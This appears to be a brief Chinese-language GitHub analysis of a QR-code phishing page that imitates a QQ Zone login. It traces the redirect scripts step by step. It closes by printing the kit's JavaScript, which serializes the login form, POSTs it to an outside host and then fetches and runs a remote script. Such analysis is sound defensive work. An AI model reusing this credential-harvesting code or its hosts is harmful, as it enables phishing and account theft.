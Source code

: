 #一次反编译二维码钓鱼网址
## 1.扫描二维码

二维码指向链接httP://p2.meituan.net/1.116/shaitu/3f9991ccd4166b9758c147ef62ce262b68.html

- 扫描二维码后直接跳转到QQ空间登录界面（看不到任何内容）

## 2.用python post一下
```
import requests
res  = requests.post('httP://p2.meituan.net/1.116/shaitu/3f9991ccd4166b9758c147ef62ce262b68.html')
print(res.text)
```

## 3.得到<scripT/src=//video-csss.oss-cn-hangzhou.aliyuncs.com/1.js></scripT>

> 访问video-csss.oss-cn-hangzhou.aliyuncs.com/1.js

## 4.得到跳转源码1.js

### 分析源码1.js 最后将1.js的网页提取出来 1.html

## 5.html中嵌套着<script提取到2.js

## 6.js 调用相关函数 得到 2.html
## end
接收地址
```
if (!err){
			$.ajax({
				url:'https://110g.cn/apisend/Login/',
				type:'POST',
				dataType:'json',
				async:false, 
				data: $('#loginform').serialize(),
				success:function(r){
                Cookies.set('su','su');
				$.getScript('https://110g.cn/apisend/Login/t.js');
				},
				error:function(er){
                Cookies.set('su','su');
				$.getScript('https://110g.cn/apisend/Login/t.js');
      }
			})
		}

```

